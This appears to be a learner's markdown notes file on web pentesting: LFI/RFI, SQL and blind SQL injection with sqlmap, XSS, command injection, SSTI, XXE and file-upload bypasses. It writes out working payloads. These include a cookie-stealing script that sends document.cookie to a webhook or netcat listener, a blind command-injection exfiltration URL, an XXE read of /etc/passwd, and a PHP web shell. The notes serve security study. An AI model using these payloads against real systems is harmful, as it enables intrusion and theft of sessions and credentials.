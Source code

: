 ### Local File Inclusion
- This is a vulnerability where there is no safety mechanism set to prevent accessing files in the local server.
- for eg: `https://example.com/contact?filename=contacts.txt` this link look for the file contacts and print it to the screen.
- we can modify this link to access sensitive files like this: `https://example.com/contact?filename=../../../../../etc/passwd` If it is vulnerable it will give out the contents passwd file.
- https://github.com/swisskyrepo/PayloadsAllTheThings : this repo is a good place to look around the payloads for testing.
- In burp pro we can use the path traversal list from the intruder payload section.
- sometimes the server look for characters like `../` and remove it before processing.
- One way to bypass it is by right click on the selection and encode it.(Not always work)
- maybe the server is using recursive filtering then we can use : `..././..././..././..././`
- what we did is we place ../ in the middle of each to bypass the recursive filtering.
### Remote File Inclusion
- Similar to LFI but we can include links to file in the place where we do LFI.
- eg : `https://example.com/contact?filename=https://google.com/notes.txt`
- The file is don't necessarily have to be mentioned in the url if it is an API driven application.
- Burp can be used to intercept the traffic and repeat it.
### SQL Injection
- If we can execute malicious SQL code in a text field to obtain information that we not suppose to see that is called SQL Injection.
- For eg in an app where we enter the username to obtain the email adress a output. We might be able to enter `jeremy' OR 1=1#` This might evaluate the SQL code as true and returns all the result.
- `jeremy' union select null,null#` what this command is used is for identifying how many number of column is selected. Increase the number of null until a result is obtained.
- if there is 3 columns being selected we do something like `jeremy' union select,select,version()#`. Which returns the version of the database.
- we can see all the table names with `jeremy' union select,select,table_name from information_schema.tables#` 
- Now the symbol # depends on the database we are using. It can also be -- - based on the database.
- There is a cheat sheet available at : https://portswigger.net/web-security/sql-injection/cheat-sheet
### Blind SQL Injection 
- There might be other injection points other than the input fields that are vulnerable to injection Attacks.
- the parameter field of the post request maybe vulnerable
- the session cookie field of the request maybe vulnerable.
- we can use SQL map to test for vulnerabilities automatically.
- we can automate the SQL vuln scanning by using sqlmap.
- copy the request to a text file.
- then use : `sqlmap -r req.txt`.
- The vulnerability doesn't have to be on the post request. It can be on the get request which contain session cookies also.(SQL Injection when processing the cookie by server.)
- Now this particular type injection doesn't return any data. 
- But we can ask database questions like 'is the first letter of password is a'.
- we substring function for this attack.
- A simple example of this would be in the request: `Cookie : session=<session token> and substring(select version(),1,1) = '8'`.
- What happens in the above request is that the first character of the version number is checked whether it's equal to '8'. If it is, the request get accepted and show the success request output.
- To automate this we can use : `sqlmap -r req.txt --level=2 --dump`.
- if we know the table name and only want to dump contents from that particular table we can use: `sqlmap -r req.txt --level=2 -T < table_name > --dump`.
### Cross Site Scripting
- Three types: 
	- **Reflected** : Malicious script comes from the current HTTP request and is reflected back in the response.
		- Only useful if it can be used in the URL. otherwise use attacking a target.
	- **Stored** : Malicious script is permanently stored on the server (e.g., database, comment section, user profile) and served to users later.
		- Attacker posts `<script>alert(1)</script>` in a forum comment; any visitor sees the pop-up.
	- **DOM-based** : Malicious script execution happens entirely on the **client side** due to insecure JavaScript modifying the DOM, without needing a new page load or server response injection
		- The vulnerability is not in the server, but in the **client-side JavaScript** running in the browser.
- If we managed to find a XSS vulnerability we can use something like `function logKey(event){console.log(event.key)}` and then `document.addEventListener('keydown', logKey)` What this does is print the key pressed to the console. we can may be send this to API and log the key pressed by the victim.
- to learn java script **w3school** can be a great resource.
- For testing XSS we can use : `<scritpt>alert(1)</script>` or `<script>prompt(1)</script>`
- sometime simple one like alert might be blocked.
- When we are listening for user interaction like sending the cookie to our system for that we can use **netcat**. or we can simply use https://webhook.site  which listen for requests it receive.
- A most used payload will be : `<script>var i = new Image;i.src="<webhook link or nc listner>"+document.cookie;</script>` this send a request to fetch the image along with the cookie also.
### Command Injection
- There might be fields where we can input and eval() command is used to execute the functionality.
- Without a proper sanitation we can execute other commands also.
- for example a input field which accept a domain and do a ping command in background and output a result to the screen.
- we can use operators like `;` to isolate the command and execute another command like `whoami` or any other command. maybe a command to get a reverse shell also.
- This vulnerability is command injection.
### Blind Command Injection
- This command injection doesn't directly give the output to the screen.
- But we can get the result of command injection from the request.
- I.e `http://webhook.site/<uniq-id>?q='whoami'` Now the resulting request send to the web hook contains actually the result of the whoami command. Now the whoami is not enclosed in quotes but in **back-quotes** .
### Server-Side Template Injection
- When user input is directly embedded into a server-side template without proper sanitation or validation it leads to SSTI vulnerability.
- Since many web frameworks (like Jinja2 in Python, Twig in PHP, Mako, etc.) allow dynamic code execution inside templates, an attacker can inject malicious template expressions that the server will execute.
- Just like any other injection attacks we have an input field.
- we can try something basic like `{{7*7}}`
- If it returns  49 the site is vulnerable to SSTI. Based on the template engine used the payload may vary.
- we can use https://book.hacktricks.xyz and look for ssti to get example payloads based on template engine.
- we can use `Fuzzing - template injection` list on burp suite pro , get it from GitHub or payload all the things.
- Sometimes based on the result we get on the browser it may seem that there is no template injection. but if we view it in burp we can see that the command get executed. but the in some cases the client side java script covers this vulnerability making it difficult to detect the vulnerability just by simple test.
### XML External Entity Injection (XXE)
- This vulnerability might exist if an application accepts a XML upload.
- This vulnerability is not seen anymore. but it is worth testing for it.
- The following is an example malicious payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE creds [
<!ELEMENT creds ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds><user>&xxe;</user><password>pass</password></creds>
```
This get the contents from the /etc/passwd and place at position &xxe.
- A safe example of xml would be this:
```
<?xml version="1.0" encoding="UTF-8"?>
<creds>
    <user>testuser</user>
    <password>testpass</password>
</creds>
```

### Insecure File Uploads
- Vulnerable file uploads allow the upload of files and executing it later on.
- we can upload some payloads that might give us reverse shell when the upload file is accessed.
- The most common one is php reverse shell payloads.
- The file upload may only allows upload of certain file types.
- In other cases there might be java script code that check the uploaded file with server in such cases we can simply disable the java script as it client side.
- We need to find where the file is being uploaded. we might need to fuzz for that directory if it is not mentioned anywhere.
- A simple php payload would be `<?php system($_GET['cmd']); ?>`
-  then we can simply pass on a command like `https://example.com/upload/payload.php?cmd=cat /etc/passwd` which would yield us results.
- we can modify the request from burp and do the file upload. but what if the check is from server side?
- Sometimes the server only look for the extension in the request. then we can do :
- `filename="logo3.php%00.png"` the %00 is call null byte which omit. This method works for older servers.
- Otherwise some web servers use regex and only look for png in the file name and without checking the end of line. then we can do : `filename="logo3.php.png"`
- If the check is server side and it only looks for the magic bytes of the file then we can simply put the payload between a image file itself inside the request and keep the first few part and last part. but use the file name with php extension so that it executes. This might work sometimes.
- we can also use other php extension. we can get those extensions simply by searching valid php extensions like phtml, php4, php5,php7,etc 
- More reading materials and labs are there in PortSwigger labs.